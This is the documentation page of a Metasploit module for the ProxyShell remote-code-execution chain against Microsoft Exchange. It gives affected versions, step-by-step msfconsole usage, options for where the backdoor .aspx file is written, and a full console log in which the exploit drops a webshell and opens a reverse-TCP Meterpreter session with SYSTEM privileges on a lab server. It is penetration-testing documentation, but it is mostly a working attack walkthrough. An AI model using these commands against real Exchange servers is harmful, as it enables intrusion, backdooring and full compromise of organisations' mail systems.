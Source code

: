 ## Vulnerable Application

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.5
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.9

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxyshell_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization. This email address must be to a user with privileges to access the Exchange
Management shell.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf6 > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL smcintyre@exchg.lan
EMAIL => smcintyre@exchg.lan
msf6 exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Sending autodiscover request
[*] Server: cccb94e0-3175-4ec9-8e8a-62679d874384@exchg.lan
[*] LegacyDN: /o=Target Org/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=508ce51c27b544b38c33df31f99d3118-smcintyre
[*] Sending mapi request
[*] SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Assigning the 'Mailbox Import Export' role
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\UhonV8RZ.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\UhonV8RZ.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:6787) at 2021-08-17 17:32:26 -0400
[*] Removing the mailbox export request

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 6
Meterpreter     : x64/windows
meterpreter >
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064
